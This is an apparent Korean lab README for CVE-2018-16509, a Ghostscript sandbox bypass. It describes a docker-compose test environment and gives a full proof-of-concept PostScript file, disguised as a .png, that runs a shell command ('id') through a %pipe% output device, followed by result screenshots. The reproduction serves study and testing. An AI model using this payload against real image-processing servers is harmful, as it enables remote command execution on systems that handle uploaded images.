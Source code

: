 # CVE-2018-16509

**Contributors**

[정기현](https://github.com/jkh011120)

## 요약

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscript를 우회하여 사용자가 의도치 않은 행위를 하게 합니다. 즉, 파일 확장자로 우회하여 공격 시도가 가능합니다.

## 환경 구성 및 실행

`docker-compose up -d` 커맨드를 입력하여 테스트 환경을 실행합니다 (GhostScript 9.23 및 ImageMagick 7.0.8 버전을 사용합니다).

## poc.ps -> poc.png
Postscript로 코드를 만든 후 확장자를 png로 변경합니다.

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```

###결과

![](1.png)

![](2.png)

![](3.png)

![](4.png)


###정리

